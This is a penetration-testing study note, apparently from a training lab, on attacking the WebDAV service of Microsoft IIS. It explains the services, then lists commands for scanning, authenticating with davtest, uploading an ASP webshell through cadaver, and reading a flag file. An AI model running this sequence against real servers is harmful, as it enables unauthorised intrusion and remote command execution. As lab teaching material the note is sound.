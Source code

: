 # System and Host Based Attacks

## Exploiting Windows Vulnerabilities

### Exploiting Microsoft WEBDAV Service

**Microsoft IIS**
IIS (Internet Information Services) is a proprietary extensible web server software developed by Microsoft for use with the Windows NT family. It can be used to host websites/web apps and provides administrators with a robust GUI for managing websites. IIS can be used to host both static and dynamic web pages developed in ASP.NET and PHP. Typically configured to run on ports 80/443.
Supported executable file extensions: .asp, .aspx, .config, .php

**WEBDAV**
WebDAV (Web-based Distributed Authoring and Versioning) is a set of extensions to the HTTP protocol which allow users to collaboratively edit and manage files on remote web servers. WebDAV essentially enables a web server to function as a file server for collaborative authoring. WebDAV runs on top Microsoft IIS on ports 80/443. In order to connect to a WebDAV server, you will need to provide legitimate credentials. This is because WebDAV implements authentication in the form of a username and password.

**WebDAV Exploitation**
The first step of the exploitation process will involve identifying whether WebDAV has been configured to run on the IIS web server. We can perform a brute-force attack on the WebDAV server in order to identify legitimate credentials that we can use for authentication. After obtaining legitimate credentials, we can authenticate with the WebDAV server and upload a malicious .asp payload that can be used to execute arbitrary commands or obtain a reverse shell on the target.

**Tools**

- davtest - Used to scan, authenticate and exploit a WebDAV server. Is Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.
- cadaver - cadaver supports file upload, download, on-screen display, in-place editing, namespace operations (move/copy), collection creation and deletion, property manipulation, and resource locking on WebDAV servers. Is Pre-installed on most offensive penetration testing distributions like Kali and Parrot OS.


### Exploiting Microsoft WEBDAV Service Practical

- `ping demo.ine.local`
- `nmap -sV -sC 10.2.20.234`
- `nmap -sV -p 80 --script=http-enum 10.2.20.234` Use script to tell us whether we have the webdav directory and if webdav is configured on this webserver.
- `davtest -url http://10.2.20.234/webdav` Failed because Unauthorized credentials
- `davtest -auth bob:password_123321 -url http://10.2.20.234/webdav`
- `cadaver http://10.2.20.234/webdav`
- `ls -al /usr/share/webshells/`
- `put /usr/share/webshells/asp/webshell.asp`
- go to Website and execute the webshell.asp file we have just uploaded
- `dir C:\`
- `type C:\flag.txt`
